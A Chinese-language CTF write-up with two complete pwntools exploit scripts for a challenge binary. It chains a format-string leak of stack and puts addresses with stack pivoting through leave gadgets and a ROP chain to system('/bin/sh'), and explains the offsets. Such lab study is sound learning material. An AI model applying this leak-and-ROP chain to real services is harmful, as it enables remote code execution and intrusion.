



```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['wt.exe', 'wsl']
e = ELF("./pwn")

#io = process("./pwn")
io = remote('127.0.0.1',62544)
# io = gdb.debug("./pwn", """b main
#                b vul
#                b *(0x401254)
#                b *(0x401268)
#                """)
# io = remote("localhost", 5621)

leave = 0x40127f
pop_rdi = 0x401203
push_rbp_pop_rdi = 0x4011FF
ret = pop_rdi + 1
pop_rbp = 0x401206
puts_plt = e.plt['puts']
puts_got = e.got['puts']
restart = 0x401268	# read


io.sendafter(b"What's your name?\n" ,b"%22$pkkk" + b"a"*0x78)

io.recvuntil(b"0x")
stack = int(io.recv(12), 16)
log.success(f"stack >>> {hex(stack)}")
target = stack - 0xb8
log.success(f"target >>> {hex(target)}")

payload1 = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(pop_rbp) + p64(target+0x30) +p64(restart)
payload1 += p64(pop_rbp) + p64(target-0x58) + p64(leave)# retto target-0x50

io.sendafter("ing?\n", payload1.ljust(0x80,b"A") + p64(target) + p64(leave))
puts_addr = u64(io.recvuntil(b"\x7f").ljust(8, b"\x00"))
log.success(f"puts_addr >>> {hex(puts_addr)}")
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base+libc.dump("system")
binsh_addr = libc_base+libc.dump("str_bin_sh")
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
#libc.address = puts_addr - libc.sym['puts']
#system_addr = libc.sym['system']
#binsh_addr = next(libc.search(b"/bin/sh"))
payload2 = p64(ret)+ p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
io.send(payload2)

io.interactive()
```

## 分析

```python
io.sendafter(b"What's your name?\n" ,b"%22$pkkk" + b"a"*0x78)
```

这里格式化字符串漏洞泄露的偏移量是6



这里可以用6+0x80/8=22来泄露`rbp`指向的地址，**这样泄露的栈地址最为稳妥**

0x78的填充可以省去，没有必要

```python
target = stack - 0xb8
```

这里是调试出来的，发现`rsp`是`rbp-0xb8`



```python
payload1 = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(pop_rbp) + p64(target+0x30) +p64(restart)
payload1 += p64(pop_rbp) + p64(target-0x58) + p64(leave)# retto target-0x50
```

这里重复利用puts，将puts的地址泄露，`target+0x30`控制二次读取时的栈位置（给后面留空间，8*6=0x30）

`pop_rbp`防止被迁移到.text段,如下图，如果没有`pop_rbp`将`rbp`的值弹出，`rbp`就变成了`0x40127`



后面就正常了

## 多次泄露一次满足

```python
from pwn import *
from libcfind import *
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['wt.exe', 'wsl']
e = ELF("./pwn")

# io = process("./pwn")
# io = gdb.debug("./pwn", """b main
#                b vul
#                b *(0x401254)
#                b *(0x401268)
#                """)
io = remote("localhost", 2280)

leave = 0x40127f
pop_rdi = 0x401203
push_rbp_pop_rdi = 0x4011FF
ret = pop_rdi + 1
pop_rbp = 0x401206
puts_plt = e.plt['puts']
puts_got = e.got['puts']
restart = 0x401268


io.sendafter(b"What's your name?\n" ,b"%22$p|%8$sAAAAAA"+p64(puts_got))
io.recvuntil(b"0x")
stack = int(io.recv(12), 16)
log.success(f"stack >>> {hex(stack)}")
target = stack - 0xb8
log.success(f"target >>> {hex(target)}")
io.recvuntil(b"|")
puts_addr = u64(io.recvuntil(b"\x7f").ljust(8, b"\x00"))
log.success(f"puts_addr >>> {hex(puts_addr)}")
libc = finder('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base+libc.dump("system")
binsh_addr = libc_base+libc.dump("str_bin_sh")
payload1 = p64(pop_rbp) + p64(stack) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
io.sendafter("ing?\n", payload1.ljust(0x80,b"A") + p64(target) + p64(leave))

# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# libc.address = puts_addr - libc.sym['puts']
# system_addr = libc.sym['system']
# binsh_addr = next(libc.search(b"/bin/sh"))


io.interactive()
```

